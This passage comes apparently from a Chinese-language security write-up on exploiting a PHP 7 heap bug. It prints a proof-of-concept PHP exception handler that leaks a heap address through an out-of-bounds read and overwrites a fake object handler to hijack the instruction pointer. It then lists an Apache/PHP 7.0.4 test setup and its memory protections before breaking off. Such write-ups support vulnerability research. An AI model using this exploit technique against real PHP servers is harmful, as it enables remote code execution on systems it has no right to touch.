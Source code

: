 能做的事情有：

1.  越界读后面堆块指针，获取其真实地址，和与数组游标的对应关系
2.  越界写后面对象的函数指针，指向前面获取的地址，即数组的地址

向数组填入内容，这样劫持了$rip

文章写到这里就结束了，poc给到0xdeadbeef

```
function exception_handler($exception) {
global $z;
$s=str_repeat('C',0x48);
$t=new SplFixedArray2(5);
$t[0]='Z';

unset($z[22]);
unset($z[21]);

$heap_addr=read_ptr($s,0x58);
print "Leak Heap memory location: 0x" . dechex($heap_addr) . "\n"; 
$heap_addr_of_fake_handler=$heap_addr-0x70-0x70+0x18+0x300;
print "Heap address of fake handler 0x" . dechex($heap_addr_of_fake_handler) . "\n";
//Set Handlers
write_ptr($s,$heap_addr_of_fake_handler,0x40);
//Set fake handler

write_ptr($s,0x40,0x300); //handler.offset
write_ptr($s,0x4141414141414141,0x308); //handler.free_obj
write_ptr($s,0xdeadbeef,0x310); //handler.dtor.obj
str_repeat('z',5);
unset($t);  //BOOM!
}

```

0x01 实际测试
=====

演示只是演示，没实际意义，在真实的生产环境中，这个洞有没有可能成功利用呢

在此，特别硬广@lxj616提供的woobuntu测试环境，真的非常好用！

*   Apache/2.4.18
*   php 7.0.4

在apache里面php是和libc一样被当做.so来加载的，所以全套保护都上齐全了

*   CANARY : ENABLED
*   FORTIFY : ENABLED
*   NX : ENABLED
*   PIE : ENABLED
*   RELRO : FULL

不要慌，我们还有更深的套路

![p5](http://drops.javaweb.org/uploads/images/1811956fcc24b92d01a35ff0054435cf3c494096.jpg)
